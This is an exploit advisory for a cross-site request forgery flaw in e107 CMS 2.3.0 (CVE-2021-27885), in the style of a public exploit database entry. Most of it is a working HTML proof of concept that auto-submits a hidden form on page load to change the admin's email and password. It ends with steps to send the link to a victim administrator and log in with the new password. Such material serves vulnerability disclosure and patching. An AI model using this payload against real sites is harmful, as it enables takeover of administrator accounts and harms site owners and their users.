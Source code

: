 EXP
---

    # Exploit Title: e107 CMS 2.3.0 - CSRF
    # Date: 04/03/2021
    # Exploit Author: Tadjmen
    # Vendor Homepage: https://e107.org
    # Software Link: https://e107.org/download
    # Version: 2.3.0
    # Tested on: Windows 10
    # CVE : CVE-2021-27885

    CSRF vulnerability on e107 CMS

    ## Bug Description
    Hi. I found a CSRF on the e107 CMS. Hacker can change password any user click the link.

    ## How to Reproduce
    Steps to reproduce the behavior:
    1. Create a CSRF login POC using the following code.

    ```
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">

    <html>
    <head>
    <title>Cross Site Request Forgery (Edit Existing Admin details)</title>
    </head>

    <body onload="javascript:fireForms()">
    <script language="JavaScript">

    function fireForms()
    {
        var count = 2;
        var i=0;

        for(i=0; i<count; i++)
        {
            document.forms[i].submit();
        }
    }

    </script>

    <H2>Cross Site Request Forgery (Edit Existing Admin details)</H2>

    <form method="POST" name="form0" action="
    http://localhost/[path-to-e107-cms]/usersettings.php">

    <input type="hidden" name="loginname" value="admin"/>
    <input type="hidden" name="email" value="[email]"/>
    <input type="hidden" name="password1" value="[password]"/>
    <input type="hidden" name="password2" value="[password]"/>
    <input type="hidden" name="hideemail" value="1"/>
    <input type="hidden" name="image" value=""/>
    <input type="hidden" name="signature" value=""/>
    <input type="hidden" name="updatesettings" value="Save settings"/>
    <input type="hidden" name="_uid" value="2"/>




    </form>

    </body>
    </html>
    ```


    2. Replace the email and password with the valid credentials.
    3. Send the link script to the victim (admin) to make them click.
    4. Login with new admin password